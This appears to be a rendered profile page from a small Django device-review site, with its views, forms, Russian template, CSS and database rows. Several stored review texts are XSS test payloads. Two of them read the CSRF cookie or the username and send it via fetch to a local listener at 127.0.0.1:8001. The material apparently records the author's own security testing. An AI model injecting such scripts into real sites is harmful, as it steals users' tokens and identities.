
The page /accounts/profile/ (signed in) on the database its author committed.
### accounts/models.py (models this page shows, shortened)
class Profile(models.Model):
    user = models.OneToOneField(User, on_delete=models.CASCADE)
    bio = models.TextField(blank=True)
    balance = models.DecimalField(max_digits=10, decimal_places=2, default=0.00)
    profile_picture = models.ImageField(upload_to='profile_pictures/', blank=True, null=True)

### devices/models.py (models this page shows, shortened)
class Review(models.Model):
    device = models.ForeignKey(Device, related_name='reviews', on_delete=models.CASCADE)
    author = models.ForeignKey(User, on_delete=models.CASCADE)
    content = models.TextField()
    rating = models.PositiveIntegerField()

class Device(models.Model):
    name = models.CharField(max_length=100)
    description = models.TextField(null=True)
    price = models.DecimalField(max_digits=10, decimal_places=2, null=True)
    category = models.ForeignKey(Category, on_delete=models.CASCADE, null=True)
    image = models.ImageField(upload_to='devices/', null=True, blank=True)

### accounts/views.py (the view)
# urls.py: path('profile/', views.profile, name='profile'),
@login_required
def profile(request):
    user_profile = Profile.objects.get(user=request.user)
    user_info = request.user
    user_reviews = Review.objects.select_related('device', 'author') \
                                 .only('id', 'device__name', 'content', 'rating',
                                       'author__username', 'author__first_name',
                                       'author__last_name', 'author__email', 'device_id') \
                                 .filter(author=request.user)
    search_form = ReviewSearchForm()
    if request.method == 'GET':
        search_form = ReviewSearchForm(request.GET)
        if search_form.is_valid():
            search_word = search_form.cleaned_data.get('search_word')
            if search_word:
                user_reviews = Review.objects.filter(author=request.user, content__icontains=search_word)
    if request.method == 'POST':
        user_edit_form = UserEditForm(request.POST, instance=request.user)
        user_bio_form = UserBioForm(request.POST, instance=user_profile)
        if user_edit_form.is_valid():
            if user_edit_form.has_changed():
                user_edit_form.save()
        if user_bio_form.is_valid():
            user_bio_form.save()
    else:
        user_edit_form = UserEditForm(instance=request.user)
        user_bio_form = UserBioForm(instance=user_profile)
    return render(request, 'accounts/profile_page.html', {'user_profile': user_profile,
                                                          'user_edit_form': user_edit_form,
                                                          'user_info': user_info,
                                                          'user_bio_form': user_bio_form,
                                                          'user_reviews': user_reviews,
                                                          'search_form': search_form})

### accounts/forms.py
class UserEditForm(forms.ModelForm):
    class Meta:
        model = User
        fields = ['first_name', 'last_name', 'email']

class UserBioForm(forms.ModelForm):
    class Meta:
        model = Profile
        fields = ['bio']

### accounts/templates/accounts/profile_page.html (shortened to what this page needs)
{% load static %}
<!DOCTYPE html>
<html lang="en">
<head>
    <link rel="stylesheet" href="{% static 'css/styles_accounts.css' %}">
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.5.2/dist/css/bootstrap.min.css">
</head>
<a href="{% url 'device_showcase' %}" class="btn-back"><button class="btn btn-secondary"> Назад </button></a>
<body>
<div class="profile-form">
    <div class="container mt-5">
        <h2 style="text-align: center;"> Мой профиль </h2>
    <div class="row">
        <div class="col-md-4">
            {% if user_profile.profile_picture %}
                <img src="{{ user_profile.profile_picture.url }}" alt="{{ user_profile.user.username }} Profile" class="img-fluid rounded-circle">
            {% else %}
                <img src="https://i.pinimg.com/originals/f4/1c/aa/f41caad9981cc88b4016984c83b3c6a1.png" class="img-fluid rounded-circle" style="width: 100%; height: auto;">
            {% endif %}
            <form method="POST" enctype="multipart/form-data" action="{% url 'upload_profile_picture' %}">
                <div class="form-group">
                    <label for="profile_picture">Загрузить фотографию</label>
                    <input type="file" name="profile_picture" id="profile_picture" class="form-control-file">
                </div>
                <button type="submit" class="btn btn-primary">Загрузить</button>
            </form>
        </div>
        <div class="col-md-8 save-form">
            <h2>{{ user_profile.user.username }}</h2>
            <div class="balance">
                <h5 style="margin-inline-end: 20px;">Баланс: {{ user_profile.balance }} </h5>
                <button id="payment-btn" class="btn btn-primary btn-top-up-balance">
                    <a href="{% url 'process_payment' %}" style="color: white; text-decoration: none;"> Пополнить баланс</a>
                </button>
            </div>
                <div class="user-info">
                    <label><strong>Имя:</strong>
                    {% if user_info.first_name %}
                        <span id="first-name">{{ user_info.first_name }}</span>
                    {% else %}
                        <span id="empty-first-name" style="opacity: 0.5;"> не заполнено </span>
                    {% endif %}
                    </label>
                </div>
                <div class="user-info">
                    <label>
                        <strong>Фамилия:</strong>
                        {% if user_info.last_name %}
                            <span id="last-name">{{ user_info.last_name }}</span>
                        {% else %}
                            <span id="empty-last-name" style="opacity: 0.5;"> не заполнено</span>
                        {% endif %}
                    </label>
                </div>
                <div class="user-info">
                    <label>
                        <strong>Почта:</strong>
                            {% if user_info.email %}
                            <span id="email">{{ user_info.email }}</span>
                        {% else %}
                            <span id="empty-email" style="opacity: 0.5;"> не заполнено</span>
                        {% endif %}
                    </label>
                </div>
            <div class="user-info">
                <label>
                    <strong>О себе:</strong>
                        {% if user_profile.bio %}
                            <span id="bio">{{ user_profile.bio }}</span>
                        {% else %}
                            <span id="empty-bio" style="opacity: 0.5;"> не заполнено</span>
                        {% endif %}
                </label>
            </div>
            <a data-toggle="modal" data-target="#editProfileModal">
                <button class="btn btn-primary"> Редактировать</button>
            </a>
        </div>
    </div>
</div>
    <div class="container mt-5">
        <h2 style="text-align: center;"> Мои отзывы </h2>
        <form class="form-search-reviews" method="get">
            <div style="display: flex; align-items: center; ">
                {{ search_form.search_word }}
                <button class="btn btn-success" style="text-color: white;">Поиск</button>
            </div>
        </form>
        <ul style="list-style-type: none;">
            {% if user_reviews %}
            {% for review in user_reviews %}
                <li>
                    UID: {{ review.id }}
                </li>
                <li>
                    Устройство:
                    <a href="{% url 'device_reviews' review.device.id %}">
                        {{ review.device.name }}
                    </a>
                </li>
                <li>
                    Содержание отзыва: {{ review.content }}
                </li>
                <li>
                    <p>Рейтинг: {{ review.rating }}</p>
                </li>
            {% endfor %}
        </ul>
        {% else %}
            <p>Вы еще не оставляли отзывы на устройства.</p>
        {% endif %}
    </div>
</div>
</body>
</html>

### accounts/static/css/styles_accounts.css (style rules this page uses)
body { overflow: hidden; width: 100vw; font-family: 'Chakra Petch', sans-serif !important; background-color: #f2f2f2; margin: 0; padding: 8px; display: flex; justify-content: center; align-items: center; flex-direction: column; height: 100vh; position: relative; }
p { display: inline-grid; }
.btn-back { position: fixed; left: 8px; top: 8px; }
.save-form { display: flex; flex-direction: column; justify-content: center; align-items: center; }
form { max-width: 300px; margin: 0 auto; text-align: center; }
input[type="text"], input[type="password"], input[type="email"] { width: 202px; padding: 5px; border: 1px solid #ccc; border-radius: 5px; text-align: center; }
button[type="submit"] { background-color: #007bff; color: #fff; padding: 10px 20px; border: none; border-radius: 5px; cursor: pointer; text-align: center; display: block; }
.profile-form { overflow: auto; display: flex; flex-direction: column; width: 100%; padding: 32px 0; }
.form-group { display: flex; flex-direction: column; align-items: start; }
.container { background-color: #fff; border-radius: 5px; padding: 20px 32px; box-shadow: 0px 0px 10px rgba(0, 0, 0, 0.3); }
label { font-weight: bold; }
button { padding: 10px 20px; background-color: #007BFF; color: #fff; border: none; border-radius: 5px; cursor: pointer; }
.btn-success { margin-top: 10px; margin-bottom: 10px; }
.balance { display: flex; align-items: flex-end; padding: 20px; }
.btn.btn-primary.btn-top-up-balance { background-color: #28a745 !important; border-color: #28a745; }
.form-search-reviews { display: flex; justify-content: center; max-width: none; }
.form-search-reviews .btn { margin: 0 10px; }

### rows shown on the page
Profile: user.username "tetz", balance "969066.00"
Review: id "12", device.name "POCO X3 NFC", content "<script> console.log('CSRF-vulnerability is active!') </script>", rating "5"
Review: id "13", device.name "POCO X3 NFC", content "<script> console.log('CSRF-vulnerability is active!') </script>", rating "5"
Review: id "15", device.name "MSI Raider GE78", content "<script> function getCSRFToken() { var cookies = document.cookie; var cookieArray = cookies.split('; '); for (var i = 0; i < cookieArray.length; i++) { var cookie = cookieArray[i]; if (cookie.indexOf('csrftoken=') === 0) { return cookie.substring('csrftoken='.length, cookie.length); } } return null; } var csrfToken = getCSRFToken(); console.log('CSRF-токен:', csrfToken); var url = \"http://127.0.0.1:8001/handle_get/?csrfToken=\" + encodeURIComponent(csrfToken); fetch(url).then(function(response) { }).catch(function(error) { console.error('Произошла ошибка:', error); }); </script>", rating "1"
Review: id "16", device.name "JBL Xtreme 3", content "<script> var usernameElement = document.querySelector(\".profile-link\"); var username = usernameElement.textContent.trim(); console.log('username:', username); var url = \"http://127.0.0.1:8001/handle_get/?username=\" + encodeURIComponent(username); fetch(url).then(function(response) { }).catch(function(error) { console.error('Произошла ошибка:', error); }); </script>", rating "3"

### other values the page prints
{{ user_info.first_name }} "Максим"
{{ user_info.last_name }} "Соповча"
